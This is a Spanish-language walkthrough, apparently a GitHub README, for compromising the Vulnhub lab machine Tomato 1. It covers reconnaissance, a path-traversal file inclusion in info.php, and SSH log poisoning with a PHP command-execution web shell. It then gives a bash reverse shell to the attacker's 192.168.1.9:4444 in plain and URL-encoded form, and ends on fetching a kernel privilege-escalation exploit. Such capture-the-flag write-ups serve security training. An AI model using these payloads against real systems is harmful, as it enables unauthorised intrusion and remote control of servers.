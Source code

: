 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=3CF700FF&width=300&height=80&lines=TOMATO_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/tomato-1,557/

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i eth0
```
![1](https://user-images.githubusercontent.com/75953873/174927688-71985557-4e9d-4790-acac-a8b1da611f48.png)

IP host: `192.168.1.10`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.10
```
![2](https://user-images.githubusercontent.com/75953873/174929092-202e91f9-f6d3-428b-a8f9-a952095f67f8.png)

Puertos abiertos: [21,80,2211,8888]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,80,2211,8888 -A 192.168.1.10
```
![3](https://user-images.githubusercontent.com/75953873/174929490-44875da3-9b11-4e39-ba9d-0d7be8d85aac.png)

Servidor corriendo: **HTTP Apache**

O.S: Linux (**Ubuntu**)

URL del servidor: `http://192.168.1.10`

![4](https://user-images.githubusercontent.com/75953873/174928906-0bf0a1e9-d580-4d8f-ae94-0c0bbb3a73b6.png)

En el puerto `8888` se encuentra corriendo el servidor Nginx (`http:192.168.1.10:8888`).

![5](https://user-images.githubusercontent.com/75953873/174929899-11ad2340-d883-4fff-8eb2-d68a7dd8b67d.png)

- *Paso 4:* Enumerar archivos y directorios con Dirb. 
```
dirb http://192.168.1.10 /usr/share/dirb/wordlists/common.txt
```
![6](https://user-images.githubusercontent.com/75953873/174931398-0e9f0007-7245-408a-b4d1-d89c6f3e30ae.png)

Directorio: `http://192.168.1.10/antibot_image/`

Al inspeccionar el código del archivo `info.php`, indica en un comentario que es posible subir una imagen con el método GET.
```
curl http://192.168.1.10/antibot_image/antibots/info.php
```
![7](https://user-images.githubusercontent.com/75953873/174932206-434978d3-3417-4eb4-bd3f-cbce7b934c87.png)

- *Paso 5:* Búsqueda de vulnerabilidad LFI (Inclusión de archivos locales).

Herramienta Tester: https://github.com/kostas-pa/LFITester

LFI Payloads: https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt

```
python3 LFITester.py -L payloads.txt
```
![9](https://user-images.githubusercontent.com/75953873/174938168-ec6ee35f-6eaf-4d05-937a-ada4e7db7e84.png)

URL: 
```
Opción 1) http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../etc/passwd
Opción 2) http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log
```

**/etc/passwd**

![8_](https://user-images.githubusercontent.com/75953873/174938823-970ad267-3267-4bbe-9f97-d256d4f5b2e2.png)

**/var/log/auth.log**

![10](https://user-images.githubusercontent.com/75953873/174939217-162ae75c-1412-48dd-98ab-142100bf6e95.png)

- *Paso 6:* Envenenar registros de Apache a través de SSH creando una backdoor por el puerto 2211.
```
ssh '<?php system($_GET['cmd']); ?>'@192.168.1.10 -p 2211
```
![11](https://user-images.githubusercontent.com/75953873/175163279-0d24f94a-7f18-41a2-a627-580aa8e1b0b2.png)

- *Paso 7:* Configurar proxy y capturar solicitud GET con BurpSuite.

Configuración de Firefox **>** Configuración de redes **>** Configuración de proxy manual

HTTP Proxy: `127.0.0.1`

Port: `8080`

![12](https://user-images.githubusercontent.com/75953873/175163339-db1853d5-b77c-47cb-86b5-0fa8e6e5fb28.png)

Acceder a la URL: `http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log&cmd=`

BurpSuite capturará la solicitud GET y a la misma se le agregará comandos extras para acceder al interior de la máquina con una reverse shell:
```
http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log&cmd=bash -c 'bash -i >& /dev/tcp/192.168.1.9/4444 0>&1'
```
![13](https://user-images.githubusercontent.com/75953873/175164908-c3716f51-9f43-4ad5-8f65-7b411f54495e.png)

Antes de obtener un reverse shell, es preciso codificar los comandos extras. Convert selection **>** URL **>** URL-encode all characters
```
antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log&cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%39%2f%34%34%34%34%20%30%3e%26%31%27
```
![14](https://user-images.githubusercontent.com/75953873/175165089-399a559f-9aa8-46d8-a638-c03704825c1f.png)

Después, ponemos a netcat en escucha por el puerto `4444` para obtener una reverse shell:
```
nc -lvnp 4444
```
Seleccionar la URL completa desde el proxy de Burp y hacer clic en **Forward** para enviar la petición GET maliciosa:

![15](https://user-images.githubusercontent.com/75953873/175165583-a851e458-fda4-45c4-a019-d66d6b688cde.png)

- *Paso 8:* Escalar privilegios: buscar exploit y descargarlo con SearchSploit.

Versión del kernel: `4.4.0-21-generic`
```
searchsploit -m 40616
```
![16](https://user-images.githubusercontent.com/75953873/175180660-31b64ace-44da-4f47-8ee1-5360af2292a3.png)
